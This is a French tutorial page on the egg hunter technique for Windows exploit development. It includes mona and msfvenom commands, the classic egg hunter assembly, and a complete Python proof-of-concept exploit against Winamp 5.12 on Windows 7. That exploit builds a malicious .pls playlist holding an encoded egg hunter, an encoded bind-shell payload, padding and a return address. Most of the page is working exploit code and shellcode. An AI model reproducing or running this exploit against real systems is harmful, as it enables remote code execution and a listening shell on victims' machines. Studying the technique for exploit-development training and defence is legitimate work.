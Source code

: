 ```yaml
---
title: Egg Hunter
permalink: /Egg_Hunter/
---
```


# Egg Hunter

Le principe d'un egg hunter est de séparer le shellcode en deux sections:

-   Une première section contenant la charge utile (e.g. bind shell, reverse shell, etc.). Cette partie est précédée d'un "Egg" qui est une chaîne spécifique répétée deux fois (e.g. W00TW00T).
-   Une seconde section contenant le "egg hunter" qui va parcourir la mémoire à la recherche de la charge utile.

Utilisation
-----------

Générer un shellcode egg hunter pour b33f avec [mona](/mona "wikilink"):

``` python
!mona egg -t b33f
```

Si on a besoin d'encoder l'egg hunter:

``` bash
echo "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74" | msfvenom --platform windows -a x86 -e x86/alpha_mixed -f py -p -
```

Il est recommandé de faire une recherche pour identifier où la charge utile se trouve en mémoire:

``` python
!mona cmp -f "E:\Exemple\shellcode"
```

Dans certains cas l'egg hunter tombera sur l'egg, mais le shellcode qui le suit sera corrompu. Dans ce cas:

-   Modifier l'egghunter pour qu'il commence au bon endroit. Il faut garder à l'esprit que la base address sera modifiée. Cependant la répartition sur la stack ne devrait pas l'être. On peut donc se baser sur l'état courant des registres.
-   Ajouter un contrôle d'intégrité à l'egghunter (voir [EggSandwich – An Egghunter with Integrity](http://www.securitysift.com/eggsandwich-egghunter-integrity/))

Exemple exploitation
--------------------

Exploitation de Winamp 5.12 sous Windows 7:

``` python
#!/usr/bin/env/python

head = "[playlist]\r\nFile1=\\\\"

# Egghunter modifié et encodé avec msfvenom
# On a ajouté un "or edx, 0x00FFFFFF" au début. Ceci permet de s'assurer qu'on trouve le shellcode intégre ET qu'il ne soit pas trop proche d'ESP.
buf =  ""
buf += "\x89\xe2\xdb\xd3\xd9\x72\xf4\x59\x49\x49\x49\x49\x49"
buf += "\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37"
buf += "\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41"
buf += "\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58"
buf += "\x50\x38\x41\x42\x75\x4a\x49\x4e\x61\x6b\x7a\x39\x6f"
buf += "\x4b\x4f\x59\x6f\x63\x30\x73\x56\x6b\x31\x49\x5a\x39"
buf += "\x6f\x44\x4f\x70\x42\x53\x62\x61\x7a\x74\x42\x46\x38"
buf += "\x5a\x6d\x64\x6e\x47\x4c\x75\x55\x30\x5a\x50\x74\x58"
buf += "\x6f\x6d\x68\x43\x47\x46\x50\x66\x50\x53\x44\x6e\x6b"
buf += "\x48\x7a\x4c\x6f\x44\x35\x68\x6a\x4e\x4f\x32\x55\x7a"
buf += "\x47\x4b\x4f\x5a\x47\x41\x41"

egghunter = buf

# Un bind shell encodé avec msfvenom
buf =  ""
buf += "\x89\xe2\xda\xd2\xd9\x72\xf4\x5f\x57\x59\x49\x49\x49"
buf += "\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += "\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += "\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += "\x58\x50\x38\x41\x42\x75\x4a\x49\x49\x6c\x39\x78\x4e"
buf += "\x62\x73\x30\x33\x30\x63\x30\x73\x50\x4f\x79\x69\x75"
buf += "\x50\x31\x49\x50\x31\x74\x6e\x6b\x62\x70\x66\x50\x4c"
buf += "\x4b\x46\x32\x44\x4c\x4c\x4b\x56\x32\x72\x34\x4e\x6b"
buf += "\x34\x32\x57\x58\x76\x6f\x6c\x77\x42\x6a\x45\x76\x64"
buf += "\x71\x6b\x4f\x4e\x4c\x45\x6c\x75\x31\x63\x4c\x53\x32"
buf += "\x66\x4c\x75\x70\x6a\x61\x6a\x6f\x36\x6d\x53\x31\x4f"
buf += "\x37\x59\x72\x59\x62\x51\x42\x71\x47\x6c\x4b\x30\x52"
buf += "\x64\x50\x6e\x6b\x61\x5a\x47\x4c\x6c\x4b\x42\x6c\x67"
buf += "\x61\x44\x38\x58\x63\x77\x38\x55\x51\x5a\x71\x42\x71"
buf += "\x6c\x4b\x50\x59\x65\x70\x45\x51\x59\x43\x6e\x6b\x51"
buf += "\x59\x44\x58\x69\x73\x66\x5a\x53\x79\x6e\x6b\x76\x54"
buf += "\x4c\x4b\x67\x71\x4a\x76\x34\x71\x4b\x4f\x6c\x6c\x6b"
buf += "\x71\x5a\x6f\x44\x4d\x63\x31\x6f\x37\x45\x68\x39\x70"
buf += "\x62\x55\x68\x76\x57\x73\x73\x4d\x59\x68\x47\x4b\x31"
buf += "\x6d\x71\x34\x74\x35\x5a\x44\x33\x68\x6e\x6b\x72\x78"
buf += "\x44\x64\x77\x71\x4a\x73\x53\x56\x6c\x4b\x54\x4c\x32"
buf += "\x6b\x6e\x6b\x31\x48\x77\x6c\x43\x31\x4b\x63\x6c\x4b"
buf += "\x74\x44\x4e\x6b\x56\x61\x48\x50\x4d\x59\x62\x64\x44"
buf += "\x64\x74\x64\x33\x6b\x33\x6b\x35\x31\x33\x69\x32\x7a"
buf += "\x46\x31\x4b\x4f\x6b\x50\x63\x6f\x73\x6f\x63\x6a\x6e"
buf += "\x6b\x44\x52\x68\x6b\x4e\x6d\x33\x6d\x70\x68\x77\x43"
buf += "\x77\x42\x57\x70\x75\x50\x33\x58\x62\x57\x73\x43\x66"
buf += "\x52\x61\x4f\x46\x34\x32\x48\x72\x6c\x50\x77\x77\x56"
buf += "\x55\x57\x39\x6f\x49\x45\x4d\x68\x4a\x30\x63\x31\x37"
buf += "\x70\x37\x70\x57\x59\x49\x54\x32\x74\x72\x70\x51\x78"
buf += "\x56\x49\x6b\x30\x62\x4b\x63\x30\x79\x6f\x4a\x75\x53"
buf += "\x5a\x43\x38\x36\x39\x76\x30\x49\x72\x79\x6d\x31\x50"
buf += "\x36\x30\x77\x30\x70\x50\x30\x68\x4a\x4a\x76\x6f\x69"
buf += "\x4f\x69\x70\x4b\x4f\x58\x55\x5a\x37\x52\x48\x43\x32"
buf += "\x35\x50\x47\x61\x53\x6c\x6c\x49\x49\x76\x52\x4a\x36"
buf += "\x70\x72\x76\x33\x67\x63\x58\x6a\x62\x59\x4b\x45\x67"
buf += "\x35\x37\x59\x6f\x4a\x75\x56\x37\x32\x48\x6f\x47\x4a"
buf += "\x49\x74\x78\x4b\x4f\x6b\x4f\x78\x55\x46\x37\x71\x78"
buf += "\x53\x44\x58\x6c\x67\x4b\x68\x61\x59\x6f\x6b\x65\x72"
buf += "\x77\x4f\x67\x50\x68\x32\x55\x30\x6e\x62\x6d\x50\x61"
buf += "\x79\x6f\x6b\x65\x65\x38\x50\x63\x42\x4d\x62\x44\x37"
buf += "\x70\x4e\x69\x59\x73\x52\x77\x61\x47\x63\x67\x30\x31"
buf += "\x69\x66\x63\x5a\x76\x72\x50\x59\x56\x36\x48\x62\x79"
buf += "\x6d\x53\x56\x6b\x77\x52\x64\x55\x74\x77\x4c\x75\x51"
buf += "\x55\x51\x4c\x4d\x37\x34\x66\x44\x34\x50\x48\x46\x35"
buf += "\x50\x32\x64\x72\x74\x32\x70\x50\x56\x52\x76\x36\x36"
buf += "\x63\x76\x76\x36\x52\x6e\x73\x66\x61\x46\x72\x73\x76"
buf += "\x36\x45\x38\x63\x49\x58\x4c\x57\x4f\x4e\x66\x6b\x4f"
buf += "\x6a\x75\x4e\x69\x6b\x50\x30\x4e\x76\x36\x61\x56\x59"
buf += "\x6f\x50\x30\x52\x48\x53\x38\x4d\x57\x67\x6d\x51\x70"
buf += "\x4b\x4f\x68\x55\x4f\x4b\x4a\x50\x4d\x65\x69\x32\x33"
buf += "\x66\x55\x38\x69\x36\x4a\x35\x6d\x6d\x4f\x6d\x49\x6f"
buf += "\x79\x45\x65\x6c\x53\x36\x73\x4c\x55\x5a\x6b\x30\x49"
buf += "\x6b\x69\x70\x30\x75\x74\x45\x4d\x6b\x71\x57\x55\x43"
buf += "\x53\x42\x62\x4f\x31\x7a\x65\x50\x70\x53\x69\x6f\x6a"
buf += "\x75\x41\x41"

shellcode = "w00tw00t" + buf

padding = "\x90"*(1022 - len(shellcode) - len(egghunter))
payload = ""
print("[+] offset {}\r\n[shellcode]".format(len(payload)))
payload+= shellcode
print("[+] offset {}\r\n[padding]".format(len(payload)))
payload+= padding[:len(padding)/2]
print("[+] offset {}\r\n[egghunter]".format(len(payload)))
payload+= egghunter
print("[+] offset {}\r\n[padding]".format(len(payload)))
payload+= padding[len(padding)/2:]
print("[+] offset {}\r\n[return address]".format(len(payload)))
payload+= "\x61\xd9\x02\x02" + "\xE9\x16\xFF\xFF\xFF" + "\x90"*6

end = "\r\n\Title1=bramo\r\nLength=512\r\nNumberOfEntries=1\r\nVersion=2\r\n"

f = open('poc.pls','w')
f.write(head + payload + end)
f.close()

# Cette partie est destinée à avoir un fichier pour utiliser mona cmp -f shellcode et identifier où se trouvent les points d'intérêts en mémoire.
f = open('shellcode', 'w')
f.write(shellcode)
f.close()
```

Exemple d'egg hunter
--------------------

L'exemple ci-dessous est l'exemple "classique" d'egg hunter:

``` asm
loop_inc_page:
    or    dx, 0x0fff                    // Add PAGE_SIZE-1 to edx
loop_inc_one:
    inc   edx                           // Increment our pointer by one
loop_check:
    push  edx                           // Save edx
    push  0x2                           // Push NtAccessCheckAndAuditAlarm
    pop   eax                           // Pop into eax
    int   0x2e                          // Perform the syscall
    cmp   al, 0x05                      // Did we get 0xc0000005 (ACCESS_VIOLATION) ?
    pop   edx                           // Restore edx
loop_check_8_valid:
    je    loop_inc_page                 // Yes, invalid ptr, go to the next page

is_egg:
    mov   eax, 0x50905090               // Throw our egg in eax
    mov   edi, edx                      // Set edi to the pointer we validated
    scasd                               // Compare the dword in edi to eax
    jnz   loop_inc_one                  // No match? Increment the pointer by one
    scasd                               // Compare the dword in edi to eax again (which is now edx + 4)
    jnz   loop_inc_one                  // No match? Increment the pointer by one

matched:
    jmp   edi                           // Found the egg.  Jump 8 bytes past it into our code.
```

Ressources
----------

-   [Fuzzy Security - Egg Hunters](http://www.fuzzysecurity.com/tutorials/expDev/4.html)


